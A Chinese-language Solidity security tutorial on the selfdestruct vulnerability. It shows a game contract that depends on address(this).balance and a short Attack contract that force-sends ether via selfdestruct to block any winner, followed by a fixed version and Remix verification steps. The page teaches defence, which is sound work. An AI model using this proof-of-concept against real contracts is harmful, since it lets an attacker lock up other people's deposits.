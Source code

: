 # 68.Self Destruct
合约可以通过调用selfdestruct从区块链中删除。
selfdestruct会将合约中剩余的所有以太币发送到指定的地址。
## 漏洞
恶意合约可以使用selfdestruct强制向任何合约发送以太币。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

// 这个游戏的目标是成为第七个存入1个以太币的玩家。
// 玩家每次只能存入1个以太币。
// 获胜者将能够提取所有以太币。

/*
1. 部署EtherGame
2. 玩家（例如Alice和Bob）决定玩游戏，每人存入1个以太币。
3. 部署攻击程序，并指定EtherGame的地址。
4. 调用Attack.attack函数，发送5个以太币。这将破坏游戏，没有人能成为赢家。

发生了什么？
攻击导致EtherGame的平衡被强制设置为7个以太币。
现在没有人能够存款，也无法设定获胜者。
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // 你可以通过发送以太币来轻松破坏游戏，以此来达到作弊的目的。
        // 游戏余额 >= 7 以太币

        // 转换地址为可支付地址
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
不要依赖address(this).balance作为预防措施。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
# remix验证
部署合约EtherGame，模拟两个不同玩家各转入1ETH，余额显示为2ETH。
![68-1.png](./img/68-1.png)
部署合约Attack，输入合约EtherGame地址，调用attack（）函数并转入5ETH，结果发现虽然达到7个ETH，但并不能设置胜利者地址。
![68-2.png](./img/68-2.png)
